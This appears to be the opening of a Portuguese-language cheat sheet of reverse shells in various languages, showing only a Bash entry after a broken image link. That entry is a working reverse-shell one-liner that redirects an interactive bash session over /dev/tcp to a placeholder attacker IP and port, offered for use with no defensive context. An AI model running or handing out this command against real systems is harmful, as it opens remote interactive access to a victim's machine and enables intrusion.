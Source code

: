 # Reverse shell em varias linguagens

### Bash
interpretador de comandos simples
```
bash -i >& /dev/tcp/[IP]/[Porta] 0>&1
```
